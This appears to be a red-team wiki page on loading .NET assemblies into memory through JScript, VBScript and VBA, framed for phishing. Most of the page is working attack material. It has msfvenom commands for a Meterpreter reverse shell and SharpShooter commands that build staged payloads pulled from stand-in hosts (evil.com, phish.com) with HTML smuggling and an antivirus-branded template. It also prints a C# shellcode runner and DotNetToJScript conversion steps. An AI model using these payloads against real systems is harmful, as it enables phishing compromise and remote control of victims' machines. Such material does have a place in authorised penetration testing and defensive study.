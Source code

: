 ```yaml
---
description: MITRE ATT&CK™ Reflective Code Loading - Technique T1620
---
```


# .NET Assembly from Windows Script Hosting

## Theory

You can load and execute .NET (C#) assemblies directly into memory from a compiled binary using Jscript, VBScript, or VBA Mcros, by using the DotNetToJScript technique from James Forshaw.

{% hint style="success" %}
As double-clicking  `.js` or .`vbs` or other script files on Windows will by default execute them through the [Windows-Based Script Host](../code-execution/wsh.md),  this technique can efficiently be used for phishing and even phishing with [HTML Smuggling](../../delivery/phishing/html-smuggling.md).
{% endhint %}

## Practice

{% tabs %}
{% tab title="UNIX-like" %}
[SharpShooter](https://github.com/mdsecactivebreach/SharpShooter) (Python) can be used to creat payloads in a variety of formats, including HTA, JS, VBS and WSF. It leverages James Forshaw's [DotNetToJavaScript](https://github.com/tyranid/DotNetToJScript) tool to invoke methods from the SharpShooter DotNet serialised object.

SharpShooter supports both staged and stageless payload execution.&#x20;

* **Stagless payload** will embed the whole .NET in the generated file.
* **Staged payloads** will attempt to retrieve a CSharp source code file that has been zipped and then base64 encoded using the chosen delivery technique (DNS or HTTP).  The CSharp source code will be downloaded and compiled on the host using the .NET CodeDom compiler. Reflection is then subsequently used to execute the desired method from the source code. A summary of how SharpShooter operates during staging is shown in the diagram below:

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption><p><a href="https://www.mdsec.co.uk/2018/03/payload-generation-using-sharpshooter/">https://www.mdsec.co.uk/2018/03/payload-generation-using-sharpshooter/</a></p></figcaption></figure>

However for both types of payload, we should first generate a shellcode.&#x20;

```bash
# Generate a shellcode for stagless payloads
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.121 LPORT=443 -f raw -o msf.raw

# Generate a shellcode for staged payloads
# The shellcode file should only contain the raw bytes, not the variable definition. For example byte[] buf = new byte[999] { 0x01, 0x02, 0x03 … would mean the shellcode file would contain just 0x01, 0x02, 0x03.
msfvenom -p windows/x64/exec CMD=calc.exe -f csharp > /tmp/raw.cs; cat /tmp/raw.cs |sed 's/byte\[\] buf = new byte\[[0-9]\+\] {//g' |sed 's/};//g' > msf.raw
```

{% hint style="danger" %}
When generating HTA payloads, we should always use 32-bit shellcodes due to mshta.exe being a 32-bit binary.
{% endhint %}

#### Stagless Payloads

We can now generate stageless payloads as follows.

```bash
# --payload:    Payload type: hta, js, jse, vbe, vbs, wsf, macro, slk
# --dotnetver:  Target .NET Version: 2 or 4
# --stageless:  Entire generated payload will be transferred at once (no HTML smuggling)

# Embedding a .NET assembly in JScript
sharpshooter --payload js --dotnetver 4 --stageless --rawscfile msf.raw --output evil

# Embedding a .NET assembly in VBScript
sharpshooter --payload vbs --dotnetver 4 --stageless --rawscfile msf.raw --output evil
```

#### Stagled Payloads

We can generate stageled payloads as follows.

```bash
# --payload:    Payload type: hta, js, jse, vbe, vbs, wsf, macro, slk
# --dotnetver:  Target .NET Version: 2 or 4
# --com:        COM Staging Technique: outlook, shellbrowserwin, wmi, wscript, xslremote
# --delivery:   Delivery method for the stage: web, dns, both
# --web:        URI for web delivery
# --shellcode:  Use built in shellcode execution
# --template:   HTTP Template for the HTTP generated file (for delievry)
# --smuggle:    Smuggle payload into generated HTTP

# HTTP Smuggling Delivery + Staged Payload to retreive the .NET to execute (in JScript)
sharpshooter --payload js --dotnetver 2 --shellcode --scfile msf.raw --output evil --delivery web --web http://www.evil.com/evil.payload --smuggle --template mcafee
```

For previous example, SharpShooter will have created 3 separate files in the output directory, evil.html, evil.js and evil.payload.

* **evil.js:** JavaScript payload that the user will eventually execute. If you are using HTML smuggling, this file does not need to be sent to the user, it’s provided purely for information and debugging purposes.
* **evil.html:** is the HTML file that we will ultimately coerce the user in to opening by whatever means. This file contains the encrypted copy of evil.js which is decrypted using JavaScript then served to the user using the navigator.mssaveBlob technique.
* **evil.payload**: is the C Sharp source code that will be retrieved, compiled and executed on the target host. In this case, the file contains a harness that will execute the supplied shellcode. The source code file is zipped then base64 encoded. The file should be hosted at the URI `http://www.evil.com/evil.payload`&#x20;

Alternatively, we can retreive a custom .NET from our staged payload:

```bash
# Custom .NET inside VBS
sharpshooter --dotnetver 4 --payload vbs --sandbox 2,3,4,5 --delivery web --refs mscorlib.dll,System.Windows.Forms.dll --namespace MDSec.SharpShooter --entrypoint Main --web http://www.phish.com/implant.payload --output malicious --smuggle --template mcafee
```
{% endtab %}

{% tab title="Windows" %}
[DotNetToJScript](https://github.com/tyranid/DotNetToJScript) is a tool created by James Forshaw that allows .NET (C#) assemblies to be executed within JavaScript or VBScript.

#### **Prepare the .NET Assembly**

First, you need to create or identify a **.NET assembly** (DLL or EXE) that contains the code you want to run. This assembly could perform any function, such as spawning a reverse shell, executing arbitrary code, or interacting with system resources.

In the example below, we create and compile our own C# code that can execute a supplied shellcode.

{% code title="evil.cs" %}
```csharp
// Compile this code as a DLL for x64 arch using Visual Studio 
using System;
using System.Runtime.InteropServices;

[ComVisible(true)]
public class EvilLoader
{
    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
    [DllImport("kernel32.dll")]
    static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
    [DllImport("kernel32.dll")]
    static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

    public EvilLoader()
    {
        //msfvenom -p windows/x64/exec CMD=calc.exe -f csharp
        byte[] buf = new byte[276] {0xfc,0x48,0x83,0xe4,0xf0,0xe8......};

        int size = buf.Length;
        IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);
        Marshal.Copy(buf, 0, addr, size);
        IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
        WaitForSingleObject(hThread, 0xFFFFFFFF);
    }
}
```
{% endcode %}

#### **Execute DotNetToJScript**

DotNetToJScript takes your compiled .NET assembly as input. The tool will embed this assembly into the output JScript or VBScript code.

{% hint style="info" %}
When using custom .NET assembly like in our example (i.e not the "ExampleAssembmy" provided code) we should specify the assembly class name and entry function.
{% endhint %}

```powershell
# -c:      Entry class name
# --lang:  Language to use (JScript, VBA, VBScript)
# --ver:   .NET version to use (None, v2, v4, Auto)

# Embedding a .NET assembly in JScript
.\DotNetToJScript.exe evil.dll -c EvilLoader --lang=Jscript --ver=v4 -o evil.js

# Embedding a .NET assembly in VBScript
.\DotNetToJScript.exe evil.dll -c EvilLoader --lang=VBScript --ver=v4 -o evil.js

# Embedding a .NET assembly in VBA
.\DotNetToJScript.exe evil.dll -c EvilLoader --lang=VBA --ver=v4 -o evil.js
```

#### **Execute the Payload**

Generated JScript or VBScript payload can be executed by double-clicking it or using [Windows Script Host](../code-execution/wsh.md). Such


{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://www.mdsec.co.uk/2018/03/payload-generation-using-sharpshooter/" %}

{% embed url="https://ppn.snovvcrash.rocks/red-team/maldev/code-injection/shellcode-runners#c-dll-to-jscript" %}

{% embed url="https://www.ired.team/offensive-security/defense-evasion/executing-csharp-assemblies-from-jscript-and-wscript-with-dotnettojscript" %}

